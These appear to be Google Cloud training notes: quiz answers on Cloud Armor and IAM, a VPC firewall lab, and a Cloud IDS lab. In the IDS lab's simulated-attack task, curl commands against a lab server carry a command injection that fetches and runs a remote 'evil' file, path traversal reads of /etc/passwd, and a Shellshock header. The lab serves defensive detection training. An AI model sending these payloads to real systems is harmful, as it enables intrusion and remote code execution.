- **Google Cloud Armor**

Correct. Google Cloud Armor is specifically designed to protect against  DDoS attacks at both the infrastructure and application layers. It  offers features like: 

- Web Application Firewall (WAF) to filter malicious traffic
- Rate limiting to control traffic spikes
- DDoS attack detection and mitigation
- IP whitelisting and blacklisting

2. Which two of the following statements are true about Google Cloud Armor?

- Google Cloud Armor is not currently compatible with any third-party partner security products.

- **Google Cloud Armor enforces access control based on IPv4 and IPv6 addresses or CIDRs.**

- **Google Cloud Armor protection is delivered at the edge of Google’s network.**

- Google Cloud Armor is a ransomware defense service.

Correct. This is a key advantage of Cloud Armor. By filtering traffic at the edge, it can mitigate attacks before they reach your  infrastructure, reducing the load on your resources and ensuring better  protection.

Correct. This is a core feature of Cloud Armor. It allows you to create  rules that permit or deny traffic based on the source IP address or  range. This is useful for filtering out known bad actors or restricting  access to specific regions.


## Controlling Access to VPC Networks

### LAB - Configuring VPC Firewalls

#### Overview

In this lab, you investigate [Virtual Private Cloud (VPC)](https://cloud.google.com/vpc) networks and create firewall rules to allow and deny access to a network and instances.

You begin by creating an automatic VPC network, a custom VPC network, and some VPC instances in those networks. You verify that the default-allow-ssh firewall rule is working and then compare this to the user created custom network to verify no ingress is allowed without custom firewall rules.

After deleting the default network, you use firewall rule priorities,to allow both ingress and egress of network traffic to your VMs.

#### Objectives

In this lab, you will learn how to:

- Create an auto-mode network, a custom-mode network, and associated subnetworks.
- Investigate firewall rules in the default network and then delete the default network.
- Use features of firewall rules for more precise and flexible control of connections.

#### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```


**Output:**

```
Credentialed accounts:
 - @.com (active)
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```


**Output:**

```
[core]
project = 
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

#### Task 1. Create VPC networks and instances

In this task, you create an automatic VPC network and custom VPC network, and some initial VPC instances in those networks.

1. On the Google Cloud Console title bar, click **Activate Cloud Shell** () to open Cloud Shell. If prompted, click **Continue**.
2. To create the network *mynetwork* with auto subnets, run the following command:

```
gcloud compute networks create mynetwork --subnet-mode=auto
```


**Note:** When an auto mode VPC network is created, one subnet from each region is automatically created within it. These automatically created subnets use a set of predefined IP ranges that fit within the 10.128.0.0/9 CIDR block.

You will now create a network with custom subnets. You can choose any private RFC 1918 CIDR block for the primary IP address range of the subnets.

1. To create the network *privatenet* with custom subnets, run the following command:

```
gcloud compute networks create privatenet \
--subnet-mode=custom
```


1. To create a custom subnet in the privatenet network, run the following command:

```
gcloud compute networks subnets create privatesubnet \
--network=privatenet --region=Region \
--range=10.0.0.0/24 --enable-private-ip-google-access
```


1. To create some instances to use later for testing in all networks, run these commands:

```
gcloud compute instances create default-vm-1 \
--machine-type e2-micro \
--zone=Zone 1 --network=default
```


```
gcloud compute instances create mynet-vm-1 \
--machine-type e2-micro \
--zone=Zone 1 --network=mynetwork
```


```
gcloud compute instances create mynet-vm-2 \
--machine-type e2-micro \
--zone=Zone 2 --network=mynetwork
```


```
gcloud compute instances create privatenet-bastion \
--machine-type e2-micro \
--zone=Zone  --subnet=privatesubnet --can-ip-forward
```


```
gcloud compute instances create privatenet-vm-1 \
--machine-type e2-micro \
--zone=Zone  --subnet=privatesubnet
```


Click *Check my progress* to verify the objective.

Create VPC networks and instances


#### Task 2. Investigate the default network

In this task, you explore the default network and verify that the default-allow-ssh firewall rule is working. Later, you delete the default-vm-1 instance and default network because you no longer need it.

Return to the Cloud Console and view the firewall rules.

1. On the **Navigation menu**, click **VPC network > Firewall**.

The following four default rules are created for the default network:


Remember, all networks also have the following 2 rules, which are not displayed in the console:


To check that the default-allow-ssh firewall rule is working, ssh into the default-vm-1 instance in the default network and test it.

1. On the **Navigation menu**, click **Compute Engine > VM instances** to display a list of VM instances.
2. In the row for the **default-vm-1** instance, click **SSH**.

You should connect successfully via SSH to the instance because of the default-allow-ssh rule. You can ping `www.google.com` to test the egress connectivity. Press **Ctrl+C** to stop the ping.

##### Delete the default-vm-1 instance

Now delete the default-vm-1 instance because you no longer need it.

1. In the **Navigation menu**, click **Compute Engine > VM instances**, select the **default-vm-1** instance and then click **Delete**.
2. In the confirmation box, click **Delete**.

##### Delete the default network

**Note:** Because the default network allows relatively open access, we recommend that you delete it for production projects.

1. On the **Navigation menu**, click **VPC network > VPC networks** to display the list of VPC networks in the Cloud Console.
2. Click the **default** network to view the network details.
3. Click **Delete VPC Network**.
4. In the confirmation box, click **Delete**.
5. Wait for the network to be deleted and verify that the default network is no longer displayed on the VPC Networks page.

#### Task 3. Investigate the user-created networks

In this task, you explore the user-created networks to verify no ingress is allowed without custom firewall rules.

##### Verify that no ingress is allowed without custom firewall rules

Remember, all networks have the following 2 rules (which will not be displayed in the Console) to block all incoming traffic and allow all outgoing traffic. Unlike the default network, user-created networks do not have any other rules by default, so currently no inbound traffic is allowed.


1. On the **Navigation menu**, click **Compute Engine > VM instances** to display a list of VM instances.
2. In the row for **mynet-vm-1** or **mynet-vm-2**, click **SSH**.

You should **NOT** be able to connect via SSH to the instances.

You will now try to SSH into an instance from the Cloud Shell.

1. Switch back to or reopen Cloud Shell.
2. To try to ssh into the **mynet-vm-2** instance, run the following command:

```
gcloud compute ssh qwiklabs@mynet-vm-2 --zone Zone 2
```


If prompted, type `Y` and press **Enter** twice to proceed.

We should **NOT** be able to connect via SSH to the instances. There is currently no inbound access allowed. Igonre the error message **ERROR: (gcloud.compute.ssh) [/usr/bin/ssh] exited with return code [255]**

#### Task 4. Create custom ingress firewall rules

In this task, you use Cloud Shell as your client host to test SSH connectivity to the instances. The external IP address of the Cloud Shell instance can be easily retrieved.

However, the IP address of your Cloud Shell instance can change if you close and reopen it, or if it is recycled due to inactivity. This should not be a problem during this lab. For a "real" project, you would allow the IP address of your SSH client host and there should not be a problem.

**Note:** As you just verified, the browser-based console SSH feature used to connect to VM instances does not currently work. If you want to allow that, you need a firewall rule that allows the source IP address. However, source IP addresses for browser-based SSH sessions are dynamically allocated by the Cloud Console and can vary from session to session.


For the feature to work, you must allow connections either from any IP address, or from Google's IP address range, which you can retrieve using public SPF records. Either of these options may pose unacceptable risks, depending on your requirements. Instead, you would allow the IP address of the SSH clients you are using to connect.

##### Allow SSH access from Cloud Shell

1. Switch back to or reopen Cloud Shell.
2. To retrieve the external IP address of the Cloud Shell instance, run the following commands:

```
ip=$(curl -s https://api.ipify.org)
echo "My External IP address is: $ip"
```


**Sample output** (your IP will be different):

```
My External IP address is: 35.229.72.135
```

1. To add a firewall rule that allows port 22 (SSH) traffic from the Cloud Shell IP address, run the following command:

```
gcloud compute firewall-rules create \
mynetwork-ingress-allow-ssh-from-cs \
--network mynetwork --action ALLOW --direction INGRESS \
--rules tcp:22 --source-ranges $ip --target-tags=lab-ssh
```


This firewall rule is also given a target tag of *lab-ssh*, which means it applies only to instances that are tagged with the lab-ssh tag.

1. To view the firewall rule in the Cloud Console, on the **Navigation menu**, click **VPC network > Firewall**.

It will look similar to the following, but your IP address will be different:


This firewall rule will be applied only to instances tagged with *lab-ssh*. It is currently not being applied to any instances.

**Note:** You have just created and applied a firewall rule using a tag. One issue with tags is that they must be added to instances and could possibly be added or removed inadvertently. Firewall rules can also be applied to instances by the service account used. These rules will be applied automatically to all instances that use the specified service account.

1. To add the lab-ssh network tag to the **mynet-vm-2** and **mynet-vm-1** instances, run the following commands in Cloud Shell:

```
gcloud compute instances add-tags mynet-vm-2 \
    --zone Zone 2 \
    --tags lab-ssh
gcloud compute instances add-tags mynet-vm-1 \
    --zone Zone 1 \
    --tags lab-ssh
```


##### Stateful firewalls

In VPC networks, firewall rules are stateful. So for each initiated connection tracked by allow rules in one direction, the return traffic is automatically allowed, regardless of any rules.

1. To ssh into the **mynet-vm-2** instance, run the following command in Cloud Shell:

```
gcloud compute ssh qwiklabs@mynet-vm-2 --zone Zone 2
```


It will take several seconds to negotiate the SSH keys, but the connection should succeed. This verifies that the firewall rule is allowing the traffic.

1. Type `exit` to log off the **mynet-vm-2** instance.
2. To ssh into the **mynet-vm-1** instance, run the following command in Cloud Shell:

```
 gcloud compute ssh qwiklabs@mynet-vm-1 --zone Zone 1
```


This connection should also succeed because the **mynet-vm-1** instance is in the same network, and the firewall rule you created is allowing access to all instances.

##### Allow all instances on the same network to communicate via ping

1. While still logged in to the **mynet-vm-1** instance, try pinging the **mynet-vm-2**instance with the command shown below. (Replace the *[PROJECT_ID]* with the PROJECT_ID for your lab exercise.)

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```


The ping command will not succeed. Even though the **mynet-vm-1** and the **mynet-vm-2** instances are in the same VPC network, all traffic is blocked by default unless there is a firewall rule allowing it.

1. Press **Ctrl+C** to stop ping if needed. Do not log out of the **mynet-vm-1** instance yet.
2. To open a new Cloud Shell window, click **Open a new tab** (**+**).
3. To add a firewall rule that allows ALL instances in the mynetwork VPC to ping each other, run the following command:

```
gcloud compute firewall-rules create \
mynetwork-ingress-allow-icmp-internal --network \
mynetwork --action ALLOW --direction INGRESS --rules icmp \
--source-ranges 10.128.0.0/9
```


**Note:** This firewall rule does not use a target-tag and therefore applies to all instances in the network by default. There is no need to tag any instances for this firewall to take effect. This kind of firewall rule is useful if all instances in a network need the same rule, but should also be used with caution because they affect all instances.

1. Switch back to the first Cloud Shell session that is connected to **mynet-vm-1** and run the ping again. This time it should work.

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```


Notice that the hostname *mynet-vm-2* resolved to the internal IP address of the instance. The internal IP will start with *10.132.0* (for example, *10.132.0.2*). Google Cloud resolves internal hostnames for you.

1. Press **Ctrl+C** to stop ping.
2. You can also try pinging the internal IP address directly and that will also work. Press **Ctrl+C** to stop ping.
3. To locate the external IP address of **mynet-vm-2**, on the **Navigation menu**, click **Compute Engine > VM instances**.
4. Click on **mynet-vm-2**, locate and copy the external IP address of the instance.
5. From the Cloud Shell session that is connected to **mynet-vm-1**, try to ping the external IP address of the **mynet-vm-2** instance:

```
 ping 
```


This should **NOT** work. When you ping the external IP address, the connection goes through the internet gateway, which causes the request to be NATed. The request is now coming from the *external* IP address of the mynet-vm-1 instance. The firewall rule is to only allow ICMP requests that come from *internal* IP addresses.

1. Press **Ctrl+C** to stop ping.

Click *Check my progress* to verify the objective.

Create custom ingress firewall rules


#### Task 5. Set the firewall rule priority

In this task, you set the firewall rule priority to deny ICMP traffic. You then verify that any traffic that does not match the rule priority is denied.

So far, all the rules created have been ingress allow rules, so the priority has not been important. Firewall rules can be both allow and deny, can specify ingress and egress, and have a priority from 0 to 65,535. If you do not set a priority, the default is 1,000. Rules are evaluated based on priority, starting from the lowest value. The first rule that matches gets applied.

1. In the first Cloud Shell session, verify that you are still connected to the **mynet-vm-1** instance. You can tell because the prompt will be: `qwiklabs@mynet-vm-1:~$`.

If not connected, use the following command to reconnect:

```
 gcloud compute ssh qwiklabs@mynet-vm-1 --zone Zone 1
```


1. Verify that you can still ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```


1. Press **Ctrl+C** to stop ping.
2. Switch to your second Cloud Shell window (or open a new one).
3. In the second Cloud Shell, create a firewall ingress rule to deny ICMP traffic from any IP with a priority of 500:

```
gcloud compute firewall-rules create \
mynetwork-ingress-deny-icmp-all --network \
mynetwork --action DENY --direction INGRESS --rules icmp \
--priority 500
```


1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance, and try to ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```


It should no longer work. This new rule has a priority of 500, where the allow rule is 1,000.

1. Press **Ctrl+C** to stop ping.

Now change the deny rule to a priority of 2,000.

1. In the second Cloud Shell, modify the firewall rule just created and change the priority to `2000`:

```
gcloud compute firewall-rules update \
mynetwork-ingress-deny-icmp-all \
--priority 2000
```


1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance, and try to ping the **mynet-vm-2** instance again:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```


This time it will work because the deny rule has a lower priority, so the allow rule is the first matching rule.

1. Press **Ctrl+C** to stop ping.

#### Task 6. Configure egress firewall rules

In this task, you create an egress firewall rule and set the priority to 10,000. You then verify that both ingress and egress rule allow that traffic.

1. From the second Cloud Shell window, list all the current firewall rules:

```
gcloud compute firewall-rules list \
--filter="network:mynetwork"
```


Currently, the VMs are still able to ping each other because the rule that denies ICMP has a higher priority than the allow ICMP rule.

Now try an egress rule.

1. Create a firewall egress rule to block ICMP traffic from any IP with a priority of `10000`:

```
gcloud compute firewall-rules create \
mynetwork-egress-deny-icmp-all --network \
mynetwork --action DENY --direction EGRESS --rules icmp \
--priority 10000
```


1. List all the current firewall rules again:

```
gcloud compute firewall-rules list \
--filter="network:mynetwork"
```


Notice that the egress rule priority is set to 10,000, which is much higher than the rules created earlier.

1. Switch back to the first Cloud Shell connected to the **mynet-vm-1** instance and try to ping the **mynet-vm-2** instance:

```
 ping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
```


**It should no longer work**. Even though the egress rule has a much higher priority of 10,000, it is still blocking traffic. This is because for traffic to be allowed, there must be both an ingress and egress rule allowing that traffic. The priority of ingress rules does not affect the priority of egress rules.

1. Press **Ctrl+C** to stop ping.

Click *Check my progress* to verify the objective.

Create a firewall rule with priority and egress firewall rule.


#### Congratulations!

In this lab, you did the following:

- Created an auto-mode network, a custom-mode network, and associated subnetworks.
- Investigated firewall rules in the default network, and then deleted the default network.
- Used firewall rule features for more precise and flexible control of connections.


### LAB - Getting Started with Cloud IDS

#### Overview

In this lab, you deploy [Cloud Intrusion Detection System (Cloud IDS)](https://cloud.google.com/intrusion-detection-system), a next-generation advanced intrusion detection service that provides threat detection for intrusions, malware, spyware, and command-and-control attacks. You simulate multiple attacks and view the threat details in the Google Cloud console.


#### Objectives

In this lab, you learn how to perform the following tasks:

- Build out a Google Cloud networking environment as shown in the previous diagram.
- Create a Cloud IDS endpoint.
- Create two virtual machines using gcloud CLI commands.
- Create a Cloud IDS packet mirroring policy.
- Simulate attack traffic from a virtual machine.
- View threat details in the Cloud console and Cloud Logging.

#### Setup

#### Before you click the Start Lab button

**Note: Read these instructions.**


Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

#### What you need

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).
- Time to complete the lab.

**Note:** If you already have your own personal Google Cloud account or project, do not use it for this lab.

**Note:** If you are using a Pixelbook, open an Incognito window to run this lab.

#### How to start your lab and sign in to the Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

   

2. Copy the username, and then click **Open Google Console**. The lab spins up resources, and then opens another tab that shows the **Choose an account** page.

   **Note:** Open the tabs in separate windows, side-by-side.

3. On the Choose an account page, click **Use Another Account**. The Sign in page opens.

   

4. Paste the username that you copied from the Connection Details panel. Then copy and paste the password.

**Note:** You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).

1. Click through the subsequent pages:

- Accept the terms and conditions.
- Do not add recovery options or two-factor authentication (because this is a temporary account).
- Do not sign up for free trials.

After a few moments, the Cloud console opens in this tab.

**Note:** You can view the menu with a list of Google Cloud Products and Services by clicking the **Navigation menu** at the top-left.

#### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```


**Output:**

```
Credentialed accounts:
 - @.com (active)
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```


**Output:**

```
[core]
project = 
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

This lab will all be done using `gcloud` CLI commands inside Cloud Shell.

#### Task 1. Enable APIs

In this task you set the project ID variable and then enable the APIs required for the lab.

1. In Cloud Shell, to set the **Project_ID** environment variable, run the following command:

```
export PROJECT_ID=$(gcloud config get-value project | sed '2d')
```


1. Enable the Service Networking API:

```
gcloud services enable servicenetworking.googleapis.com \
    --project=$PROJECT_ID
```


If prompted to authorize the command, click **Authorize**.

1. Enable the Cloud IDS API:

```
gcloud services enable ids.googleapis.com \
    --project=$PROJECT_ID
```


1. Enable the Cloud Logging API:

```
gcloud services enable logging.googleapis.com \
    --project=$PROJECT_ID
```


Click *Check my progress* to verify the objective.

Enable APIs.


#### Task 2. Build the Google Cloud networking footprint

In this task, you create a Google Cloud VPC network and configure private services access.

Private services access is a private connection between your VPC network and a network owned by Google or a third party. Google or the third party, entities who are offering services, are also known as service producers.

The private connection enables virtual machine (VM) instances in your VPC network and the services that you access to communicate exclusively by using internal IP addresses.

1. In Cloud Shell, to create a VPC, run the following command:

```
gcloud compute networks create cloud-ids \
--subnet-mode=custom
```


If prompted to authorize the command, click **Authorize**.

1. Add a subnet to the VPC for mirrored traffic in us-east1:

```
gcloud compute networks subnets create cloud-ids-useast1 \
--range=192.168.10.0/24 \
--network=cloud-ids \
--region=us-east1
```


1. Configure private services access:

```
gcloud compute addresses create cloud-ids-ips \
--global \
--purpose=VPC_PEERING \
--addresses=10.10.10.0 \
--prefix-length=24 \
--description="Cloud IDS Range" \
--network=cloud-ids
```


1. Create a private connection:

```
gcloud services vpc-peerings connect \
--service=servicenetworking.googleapis.com \
--ranges=cloud-ids-ips \
--network=cloud-ids \
--project=$PROJECT_ID
```


Click *Check my progress* to verify the objective.

Create a VPC.


#### Task 3. Create a Cloud IDS endpoint

In this task you create a Cloud IDS endpoint in us-east1 with a severity set to *informational*.

Cloud IDS uses a resource known as an IDS endpoint, a zonal resource that can inspect traffic from any zone in its region. Each IDS endpoint receives mirrored traffic and performs threat detection analysis.

**Note:** The creation of the IDS endpoint takes approximately 20 minutes.

1. To create a Cloud IDS endpoint, in Cloud Shell, run the following command:

```
gcloud ids endpoints create cloud-ids-east1 \
--network=cloud-ids \
--zone=us-east1-b \
--severity=INFORMATIONAL \
--async
```


1. Verify that the Cloud IDS endpoint is initiated:

```
gcloud ids endpoints list --project=$PROJECT_ID
```


If the message **Would you like to enable and retry** appears, press **Y**.

The output should be similar to this:

Command Output

```
  ID: cloud-ids-east1
  LOCATION: us-east1-b
  SEVERITY: INFORMATIONAL
  STATE: CREATING
  NETWORK: cloud-ids
  TRAFFIC_LOGS:
```

Click *Check my progress* to verify the objective.

Create a Cloud IDS endpoint.


#### Task 4. Create Firewall rules and Cloud NAT

In this task you create two firewall rules: allow-http-icmp and allow-iap-proxy.

To enable standard http port (TCP 80) connections, and ICMP protocol connections to the server VM from all sources in the cloud-ids network, you define the *allow-http-icmp*rule.

To enable SSH connections to the VMs from the Identity-Aware Proxy IP range, you define the allow-iap-proxy_ rule.

You also configure Cloud Router and then configure Cloud NAT. As a prerequisite for Cloud NAT, a Cloud Router must first be configured in the same region. To provide internet access to VMs that don't have a public IP address, a Cloud NAT must be created in the same region. The VMs will be created without a public IP address to make sure that they are inaccessible *from* the internet. However, they will need access *to* the internet to download updates and files.

1. To create the allow-http-icmp rule, in Cloud Shell, run the following command:

```
gcloud compute firewall-rules create allow-http-icmp \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:80,icmp \
--source-ranges=0.0.0.0/0 \
--target-tags=server
```


1. Create the allow-iap-proxy rule:

```
gcloud compute firewall-rules create allow-iap-proxy \
--direction=INGRESS \
--priority=1000 \
--network=cloud-ids \
--action=ALLOW \
--rules=tcp:22 \
--source-ranges=35.235.240.0/20
```


Click *Check my progress* to verify the objective.

Add firewall rules to the VPC.


1. To create a Cloud Router, run the following command:

```
gcloud compute routers create cr-cloud-ids-useast1 \
--region=us-east1 \
--network=cloud-ids
```


1. To configure a Cloud NAT, run the following command:

```
gcloud compute routers nats create nat-cloud-ids-useast1 \
--router=cr-cloud-ids-useast1 \
--router-region=us-east1 \
--auto-allocate-nat-external-ips \
--nat-all-subnet-ip-ranges
```


Click *Check my progress* to verify the objective.

Create a Cloud Router.


#### Task 5. Create two virtual machines

In this task, you create two virtual machines (VMs). The first virtual machine is your web server, which is mirroring to Cloud IDS. The second virtual machine is the source of your attack traffic.

You establish an SSH connection to your server via Identity-Aware Proxy (IAP), check the status of your web service server, create a benign malware file on the web server, and then add content to the file.

1. To create a virtual machine to be a server mirroring to Cloud IDS, in Cloud Shell, run the following command:

```
gcloud compute instances create server \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.20 \
--metadata=startup-script=\#\!\ /bin/bash$'\n'sudo\ apt-get\ update$'\n'sudo\ apt-get\ -qq\ -y\ install\ nginx \
--tags=server \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
```


This command creates a Debian server in us-east1 and installs a simple web service.

1. Create a virtual machine to be a client sending attack traffic:

```
gcloud compute instances create attacker \
--zone=us-east1-b \
--machine-type=e2-medium \
--subnet=cloud-ids-useast1 \
--no-address \
--private-network-ip=192.168.10.10 \
--image=debian-11-bullseye-v20240709 \
--image-project=debian-cloud \
--boot-disk-size=10GB
```


This command prepares a Debian server in us-east1 to use as your client.

Click *Check my progress* to verify the objective.

Create a virtual machine.


##### Prepare your server

In this procedure, you validate your server and then create a benign malware payload for your client.

1. To establish an SSH connection to your server via IAP, run the following command:

```
gcloud compute ssh server --zone=us-east1-b --tunnel-through-iap
```


This command will prompt you through a series of steps to create an ssh key and the required directories.

1. To agree to the directory creation prompt, type **Y**.
2. When prompted for a passphrase, to use a blank passphrase, press ENTER twice.

You are now in the shell of your server VM.

##### Confirm that the web service is running

In this procedure, you check the status of your web service server. You create a benign malware file on the web server and then add content to the file.

1. To check the status of your web service, run the following Linux command:

```
sudo systemctl status nginx
```


The output should be similar to this:

Command Output

```
 ● nginx.service - A high performance web server and a reverse proxy server
   Loaded: loaded (/lib/systemd/system/nginx.service; enabled; vendor preset: enabled)
   Active: active (running) since Tue 2021-05-25 18:01:49 UTC; 5h 24 min ago
   Docs: man:nginx(8)
   Main PID: 1347 (nginx)
   Tasks: 3 (limit: 4665)
   Memory: 4.5M
   CGroup: /system.slice/nginx.service
           ├─1347 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
           ├─1348 nginx: worker process
           └─1349 nginx: worker process

   May 25 18:01:49 server systemd[1]: Starting A high performance web server and a reverse proxy server...
   May 25 18:01:49 server systemd[1]: Started A high performance web server and a reverse proxy server.                       
```

1. Change directory to the web service:

```
cd /var/www/html/
```


1. Create a benign malware file on the web server. Run the following Linux command to create a text file:

```
sudo touch eicar.file
```


1. Add the following content to the newly created file:

```
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | sudo tee eicar.file
```


1. Exit the server VM shell and return to Cloud Shell:

```
exit
```


#### Task 6. Create a Cloud IDS packet mirroring policy

In this task, you create a Cloud IDS packet mirroring policy. This policy determines what traffic is mirrored to the Cloud IDS. You will then attach this policy to the newly created Cloud IDS endpoint.

As mentioned earlier, the Cloud IDS endpoint creation takes some time. Before you can proceed with this lab, the endpoint must be in an active/ready state.

1.To verify that your Cloud IDS endpoint is active, in Cloud Shell, run the following command to show the current state of the Cloud IDS endpoint:

```
gcloud ids endpoints list --project=$PROJECT_ID | grep STATE
```


The output should be similar to this:

Command Output

```
  STATE: READY
```

Continue to run this command every few minutes until the state shows *READY*.

1. Identify the Cloud IDS endpoint forwarding rule and confirm that the Cloud IDS endpoint state is *READY*:

```
export FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")
echo $FORWARDING_RULE
```


The output should be similar to this:

Command Output

```
  https://www.googleapis.com/compute/v1/projects/md975a7fa0a53145dp-tp/regions/us-east1/forwardingRules/ids-fr-cloud--xkkerutlagop6opm                         
```


1. Create and attach the packet mirroring policy:

```
gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
--region=us-east1 \
--collector-ilb=$FORWARDING_RULE \
--network=cloud-ids \
--mirrored-subnets=cloud-ids-useast1
```


Click *Check my progress* to verify the objective.

Create and attach the packet mirroring policy.


1. Verify that the packet mirroring policy is created:

```
gcloud compute packet-mirrorings list
```


This gcloud command lists the packet mirroring policies and shows whether they are enabled/disabled.

The output should be similar to this:

Command Output

```
  NAME: cloud-ids-packet-mirroring
  REGION: us-east1
  NETWORK: cloud-ids
  ENABLE: TRUE                        
```

#### Task 7. Simulate attack traffic

In this task, you establish an SSH connection to your attacked virtual machine and simulate attack traffic from a virtual machine to your server. You do this by running a selection of `curl` commands that range from low severity to critical severity.

1. To establish an SSH connection to your attacker virtual machine through IAP, in Cloud Shell, run the following command:

```
gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
```


**Note:** You are now in the shell of your attacker VM and not the Cloud Shell machine.

1. Run the following `curl` requests in sequence to simulate low, medium, high, and critical severity alerts on the IDS:

**Low Severity:**

```
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
```


**Medium Severity:**

```
curl http://192.168.10.20/?item=../../../../WINNT/win.ini
curl http://192.168.10.20/eicar.file
```


**High Severity:**

```
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
```


**Critical Severity:**

```
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
```


1. Exit the attacker virtual machine shell and return to Cloud Shell:

```
exit
```


#### Task 8. Review threats detected by Cloud IDS

In this task, you review the various attack traffic captured by the Cloud IDS in the Cloud console. The captured attack traffic profiles provide details of each threat.

1. In the Google Cloud console, in the **Navigation menu** (), click **Network Security > Cloud IDS**.
2. Click the **Threats** tab.

The Cloud IDS captured various attack traffic profiles and provided the details on each threat. You may need to click **Refresh** if you do not see any threats. You now dive a little deeper and view threat details.

1. Locate the **Bash Remote Code Execution Vulnerability** threat, click **More** (), and then select **View threat details**.

**Note:** You may have noticed that there are multiple threats that produce the same name, for example, “Bash Remote Code Execution Vulnerability”. This is expected behavior.


If you look closely, you will see that the session IDs of the threats are different. Since both VMs created are in the same subnet, we are seeing mirrored packets for both the client and server. Outbound packets from the client are being mirrored to IDS, and additionally, inbound packets to the server are being mirrored to IDS.

1. Now you view the details of this incident in Cloud Logging. To return to the **Threats** page, click the left arrow.
2. Click the **Threats** tab.
3. Locate the **Bash Remote Code Execution Vulnerability**, click **More**, and then select **View threat logs**.

A new Cloud Logging tab opens that displays the same details. This enables you to send the logs to Cloud Storage, Chronicle, or any SIEM/SOAR. You can also create custom workflows to take remediation action based on alerts, like creating a Cloud Function that triggers on an alert and creating or updating a firewall rule to block the IP address, or creating or updating a Google Cloud Armor policy.

Click *Check my progress* to verify the objective.

Getting Started with Cloud IDS.


#### Congratulations!

In this lab, you did the following:

1. Created a new VPC and deployed a Cloud IDS endpoint.
2. Deployed two VMs, created a packet mirroring policy, and then sent attack traffic.
3. Verified that the Cloud IDS captured the threats by viewing the threat details in the Cloud console and the threat logs in Cloud Logging.


### Quiz

1. Which type of IAM member belongs to an application or virtual machine instead of an individual end user?
- Cloud Identity domain
- Google account
- Google group
- **Service account**

Correct! A service account is a special Google account that belongs to  your application or a virtual machine, instead of to an individual end  user.

2. Which IAM role contains permissions to create, modify, and delete networking resources, except for firewall rules and SSL certificates?
- Network viewer
- Security viewer
- Security administrator
- **Network administrator**

Correct! The network administrator role grants permission to create,  modify, and delete networking resources, except for firewall rules and  SSL certificates.


## Advanced Security Monitoring and Analysis

### Quiz

1. What is the primary purpose of Packet Mirroring in network security?

- To filter out unwanted traffic from a network.
- To encrypt network traffic for privacy.
